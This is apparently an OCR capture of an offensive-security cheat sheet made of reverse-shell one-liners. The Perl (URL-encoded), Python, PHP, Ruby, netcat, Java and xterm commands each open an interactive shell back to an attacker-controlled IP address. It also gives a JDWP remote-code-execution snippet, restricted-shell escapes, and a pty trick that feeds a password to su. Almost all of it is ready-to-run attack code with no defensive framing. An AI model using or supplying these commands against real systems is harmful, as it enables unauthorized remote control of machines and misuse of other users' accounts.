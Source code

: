 echo%20%27use%20Socket%3B%24i%3D%2210.11.0.245%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2fbin%2fsh%20-i%22%29%3B%7D%3B%27%20%3E%20%2ftmp%2fpew%20%26%26%20%2fusr%2fbin%2fperl%20%2ftmp%2fpew

Python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

PHP

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

Ruby

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Netcat without -e #1

rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f

Netcat without -e #2

nc localhost 443 | /bin/sh | nc localhost 444
telnet localhost 443 | /bin/sh | telnet localhost 444

Java

r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();

XTerm

xterm -display 10.0.0.1:1

JDWP RCE

print new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("whoami").getInputStream())).readLine())

Working with Restricted Shells

# rare cases
ssh bill@localhost ls -l /tmp

nice /bin/bash

Interactive TTY Shells

/usr/bin/expect sh

python -c ‘import pty; pty.spawn(“/bin/sh”)’
# execute one command with su as another user if you do not have access to the shell. Credit to g0blin.co.uk
python -c 'import pty,subprocess,os,time;(master,slave)=pty.openpty();p=subprocess.Popen(["/bin/su","-c","id","bynarr"],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,"fruity\n");time.sleep(0.1);print os.read(master,1024);'
